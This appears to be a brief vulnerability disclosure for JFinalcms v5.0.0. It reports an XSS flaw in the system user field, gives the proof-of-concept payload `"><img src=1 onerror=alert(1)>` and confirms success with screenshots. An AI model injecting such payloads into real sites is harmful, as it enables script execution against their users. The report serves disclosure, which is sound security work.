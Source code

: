 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

XSS exists at the system user's location

![图片](https://github.com/JinYunlei/cms/assets/134837499/117f7491-bb7d-4a69-b6c9-564b7dbde878)


poc:`"><img src=1 onerror=alert(1)>`

![图片](https://github.com/JinYunlei/cms/assets/134837499/9ffaceb4-8f5d-4685-9101-be042ef65e01)

successed

![图片](https://github.com/JinYunlei/cms/assets/134837499/6777ea19-eae6-4767-844c-57ce3fd55b25)
